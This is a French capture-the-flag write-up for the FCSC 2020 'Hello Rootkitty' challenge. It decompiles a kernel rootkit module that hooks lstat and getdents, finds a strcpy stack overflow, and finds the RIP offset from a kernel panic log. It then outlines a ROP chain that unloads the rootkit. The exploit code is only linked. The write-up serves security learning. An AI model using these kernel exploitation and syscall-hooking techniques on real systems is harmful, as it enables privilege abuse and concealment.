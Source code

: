 # Hello Rootkitty 

## intitulé

> Une machine a été infectée par le rootkit Hello Rootkitty qui empêche la lecture de certains fichiers.
> Votre mission : aider la victime à récupérer le contenu des fichiers affectés. Une fois connecté en SSH, lancez le wrapper pour démarrer le challenge.

##Fichiers fournis
[bzImage](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/bzImage) le kernel linux
[ecsc.ko](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/ecsc.ko) le rootkit sous forme de module kernel 
[initramfs.example.cpio](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/initramfs.example.cpio) Le système de fichier

Au vu des fichiers, on peut s'imaginer qu'on va devoir exploiter une vulnérabilité kernel.

## Analyse
Après avoir lancé le wrapper mentionné dans l'intitulé, on se rend compte que les fichiers commençants par "ecsc_flag_" ont un comportement étrange : on ne peut pas visualiser leur contenu et ils sont renommés automatiquement :
```bash
~ $ echo "test" > ecsc_flag_1234
~ $ ls -al~~~~
total 0
drwxrwxrwx    2 ctf      ctf              0 May  4 19:44 .
drwxr-xr-x    3 root     root             0 Feb 25 09:30 ..
-r--------    0 root     root             0 Jan  0  1900 ecsc_flag_XXXX
~ $ cat ecsc_flag_XXXX
cat: can't open 'ecsc_flag_XXXX': No such file or direc****tory
```

à noter qu'ils changent de propriétaire et de date.

En décompilant le module avec [ghidra](https://ghidra-sre.org/)  on comprend un peu mieux ce qu'il se passe :
Les syscalls **lstat**, **getdents**, **getdents64** sont *hookés* :
```c
long init_module(void)

{
  ulong *syscall_table;
  ulong in_CR0;
  
  syscall_table = (ulong *)kallsyms_lookup_name("sys_call_table");
  ref_sys_getdents64 = syscall_table[0xd9];
  original_cr0 = in_CR0;
  my_sys_call_table = syscall_table;
  syscall_table[0xd9] = (ulong)ecsc_sys_getdents64;
  ref_sys_getdents = syscall_table[0x4e];
  syscall_table[0x4e] = (ulong)ecsc_sys_getdents;
  ref_sys_lstat = syscall_table[6];
  syscall_table[6] = (ulong)ecsc_sys_lstat;
  return 0;
}
```

le syscall [lstat](https://linux.die.net/man/2/lstat)  permet normalement d'afficher les attributs d'un fichier.
les syscalls [getdents](https://linux.die.net/man/2/getdents) et [getdents64](https://linux.die.net/man/2/getdents) permettent d'afficher le nom des fichiers.

Tout s'explique. On va donc étudier de plus près les hooks de ces syscalls, plus particulièrement celui des syscall **getdents** et **getdents64**. Voilà ce que donne la fonction ecsc_sys_getdents64 :
```c
ulong ecsc_sys_getdents64(ulong fd,dirent *dirp,ulong count)

{
  byte *__src;
  ulong result;
  uint *__src_00;
  uint *puVar1;
  uint *puVar2;
  long i;
  uint uVar3;
  uint uVar4;
  ulong Result;
  byte *pbVar5;
  byte *pbVar6;
  ulong uVar7;
  bool bVar8;
  bool bVar9;
  byte bVar10;
  char local_70 [10];
  undefined8 XXXX;
  
  bVar10 = 0;
  result = (*ref_sys_getdents64)();
  Result = result;
  do {
    if ((long)Result < 1) {
      return result;
    }
    uVar7 = (ulong)dirp->d_reclen;
    __src = (byte *)dirp->d_name;
    i = 10;
    bVar8 = Result < uVar7;
    Result = Result - uVar7;
    bVar9 = Result == 0;
    pbVar5 = __src;
    pbVar6 = (byte *)"ecsc_flag_";
    do {
      if (i == 0) break;
      i = i + -1;
      bVar8 = *pbVar5 < *pbVar6;
      bVar9 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (ulong)bVar10 * -2 + 1;
      pbVar6 = pbVar6 + (ulong)bVar10 * -2 + 1;
    } while (bVar9);
    if ((!bVar8 && !bVar9) == bVar8) {
      __src_00 = (uint *)**strcpy**(local_70,(char *)__src);
      puVar2 = __src_00;
      do {
        puVar1 = puVar2;
        uVar3 = *puVar1 + 0xfefefeff & ~*puVar1;
        uVar4 = uVar3 & 0x80808080;
        puVar2 = puVar1 + 1;
      } while (uVar4 == 0);
      bVar8 = (uVar3 & 0x8080) == 0;
      if (bVar8) {
        uVar4 = uVar4 >> 0x10;
      }
      if (bVar8) {
        puVar2 = (uint *)((long)puVar1 + 6);
      }
      Result = (long)puVar2 + (-(long)__src_00 - (ulong)CARRY1((byte)uVar4,(byte)uVar4)) + -0xd;
      if (0x3f < Result) {
        Result = 0x40;
      }
      uVar4 = (uint)Result;
      if (uVar4 < 8) {
        if ((Result & 4) == 0) {
          if ((uVar4 != 0) && (*(undefined *)((long)__src_00 + 10) = 0x58, (Result & 2) != 0)) {
            *(undefined2 *)((long)__src_00 + (Result & 0xffffffff) + 8) = 0x5858;
          }
        }
        else {
          *(undefined4 *)((long)__src_00 + 10) = 0x58585858;
          *(undefined4 *)((long)__src_00 + (Result & 0xffffffff) + 6) = 0x58585858;
        }
      }
      else {
        XXXX = 0x5858585858585858;
        *(undefined8 *)((long)__src_00 + (Result & 0xffffffff) + 2) = 0x5858585858585858;
        uVar4 = uVar4 + (((int)__src_00 + 10) - (int)(__src_00 + 4)) & 0xfffffff8;
        if (7 < uVar4) {
          uVar3 = 0;
          do {
            Result = (ulong)uVar3;
            uVar3 = uVar3 + 8;
            *(undefined8 *)((long)(__src_00 + 4) + Result) = 0x5858585858585858;
          } while (uVar3 < uVar4);
        }
      }
      **strcpy**((char *)__src,(char *)__src_00);
      return result;
    }
    dirp = (dirent *)((long)&dirp->d_ino + uVar7);
  } while( true );
}
```

Sans s'attarder sur les détails on voit que :
1. le syscall original est appelé,
2. si le fichier débute par "ecsc_flag_", la suite du nom de fichier est remplacé par de "X"
3. la fonction fait des appels à **strcpy**, ce qui est très dangereux et peut provoquer des buffers overflow. D'une manière générale, on ne fait jamais appel à ces fonctions dans le kernel et les modules, en pivilegiant plutôt les fonctions comme [copy_from_user](https://www.kernel.org/doc/htmldocs/kernel-api/API---copy-from-user.html) par exemple.

Afin de tester la vulnérabilité et de connaitre l'offset pour lequel on overwrite la rip, nous allons faire appel à pwn tools :
```python
Python 2.7.17 (default, Apr 15 2020, 17:20:14) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(150)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma'
>>> 
```
puis :
```bash
cd /home/ctf
touch ecsc_flag_aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
ls -l
```

on obtient :
```
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 53 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff932d81e19980 task.stack: ffff9ac3c009c000
RIP: 0010:0x6163626161626261
RSP: 0018:ffff9ac3c009ff38 EFLAGS: 00000282
RAX: 00000000000000e8 RBX: 6174616161736161 RCX: 0000000000000000
RDX: 00007fff048b3bd4 RSI: ffff9ac3c009ff61 RDI: 00007fff048b3b33
RBP: 617a616161796161 R08: ffff9ac3c009fed0 R09: ffffffffc00d7024
R10: ffff9ac3c009fec0 R11: 6161666261616562 R12: 6176616161756161
R13: 6178616161776161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb9836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007fff048b3af0 CR3: 0000000001e98000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6163626161626261 RSP: ffff9ac3c009ff38
---[ end trace 85871824b1c07ee4 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x37e00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
Rebooting in 1 seconds..
```
Bingo ! pwntools nous donne l'offset en question (Notez la valeur de RIP)~~~~ :
```python
>>> cyclic_find(p64(0x6163626161626261))
102
```

## Exploit
On s'oriente donc vers un "simple" bufferoverflow. Ne sachant pas l'addresse de la stack et le kernel utilisé étant probablement assez recent, on va devoir utiliser une [ropchain](https://en.wikipedia.org/wiki/Return-oriented_programming). 

Notre ropchain va d'abord appeller la fonction **cleanup_module** (qui fait exactement l'inverse de la fonction **init_module** mentionnée plus haut, à savoir qu'elle restaure la table des syscalls afin que les fonctions originales du noyau soient utilisés). Puis on va dépiler la stack jusqu'à obtenir l'addresse de retour initial (dans **do_syscall_64**, la fonction qui gère les syscall). Le kernel reprendra donc un fonctionnement à peu près normal. Le but de la ropchain n'étant pas de passer root, mais de désactiver le rootkit. Un simple `cat /ecsc_flag_*` affichera le flag après passage de notre exploit.

Voici le [code de mon exploit](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/exploit.c).


